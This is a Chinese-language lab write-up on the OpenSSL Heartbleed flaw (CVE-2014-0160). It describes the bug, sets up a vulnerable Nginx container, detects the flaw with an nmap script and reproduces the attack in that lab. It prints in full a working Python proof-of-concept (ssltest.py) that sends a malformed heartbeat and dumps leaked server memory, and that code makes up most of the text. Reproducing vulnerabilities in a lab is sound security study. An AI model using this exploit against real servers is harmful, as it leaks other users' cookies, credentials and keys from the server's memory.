 # OpenSSL 心脏出血漏洞 CVE-2014-0160

## 漏洞描述

在OpenSSL1.0.1版本中存在严重漏洞（CVE-2014-0160），此次漏洞问题存在于ssl/dl_both.c文件中。OpenSSL Heartbleed模块存在一个BUG，当攻击者构造一个特殊的数据包，满足用户心跳包中无法提供足够多的数据，会导致memcpy把SSLv3记录之后的数据直接输出，该漏洞导致攻击者可以远程读取存在漏洞版本的openssl服务器内存中长大64K的数据。

心脏出血是一个内存漏洞，攻击者利用这个漏洞可以服务到目标进程内存信息，如其他人的Cookie等敏感信息。

参考链接：

- https://heartbleed.com/
- https://filippo.io/Heartbleed

## 环境搭建

Vulhub运行如下命令启动一个使用了OpenSSL 1.0.1c的Nginx服务器：

```
docker-compose up -d
```

环境启动后，访问`https://your-ip`即可查看到hello页面。

![image-20220224095222840](./images/202202240952891.png)

## 漏洞复现

通过Nmap进行漏洞检测：

```shell
nmap -sV -p 443 --script ssl-heartbleed.nse your-ip
```

![image-20220224102304171](./images/202202241023370.png)

Python运行[ssltest.py](https://github.com/vulhub/vulhub/blob/master/openssl/heartbleed/ssltest.py)，拿到敏感数据（可能包含Cookie）。

![image-20220224104055810](./images/202202241040993.png)

## 漏洞POC

ssltest.py：

```python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import binascii
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

def h2bin(x):
    return binascii.unhexlify(x.replace(' ', '').replace('\n', ''))

hello = h2bin('''
16 03 02 00 dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')

def hexdump(s: bytes):
    for b in range(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % c for c in lin)
        pdat = ''.join((chr(c) if 32 <= c <= 126 else '.' )for c in lin)
        print('  %04x: %-48s %s' % (b, hxdat, pdat))

    print("")

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = b''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata


def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print('Unexpected EOF receiving record header - server closed connection')
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print('Unexpected EOF receiving record payload - server closed connection')
        return None, None, None
    print(' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay)))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print('No heartbeat response received, server likely not vulnerable')
            return False

        if typ == 24:
            print('Received heartbeat response:')
            hexdump(pay)
            if len(pay) > 3:
                print('WARNING: server returned more data than it should - server is vulnerable!')
            else:
                print('Server processed malformed heartbeat, but did not return any extra data.')
            return True

        if typ == 21:
            print('Received alert:')
            hexdump(pay)
            print('Server returned error, likely not vulnerable')
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print('Connecting...')
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print('Sending Client Hello...')
    sys.stdout.flush()
    s.send(hello)
    print('Waiting for Server Hello...')
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print('Server closed connection without sending Server Hello.')
            return
        # Look for server hello done message.
        if typ == 22 and pay[0] == 0x0E:
            break

    print('Sending heartbeat request...')
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()
```

